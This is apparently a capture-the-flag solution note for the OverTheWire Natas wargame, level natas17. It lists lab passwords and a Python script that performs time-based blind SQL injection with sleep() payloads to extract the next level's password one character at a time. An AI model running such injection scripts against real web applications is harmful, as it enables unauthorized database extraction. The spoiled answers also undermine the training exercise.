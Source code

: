 	9. natas17 password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
natas17:
	"""
	import requests
	import sys
	import time

	password = "xvKIqDjy4OPv7wCRgDlmj0pFsCsDj"

	while len(password) < 32:
		print 'Finding character in position: %d' % (len(password)+1)
		for char in list('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'):
			start_time = time.time()
			res = requests.get('http://natas17.natas.labs.overthewire.org/index.php?username=natas18" and if(binary substr(password, %d, 1) = \'%s\', sleep(5), null) union select 1,"2' % (len(password)+1, char), auth=('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'))
			if (time.time() - start_time) > 2:
				password += char
				print 'Current password:', password
				break

	print 'nastas18:%s' % password
	"""
	password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
natas18:
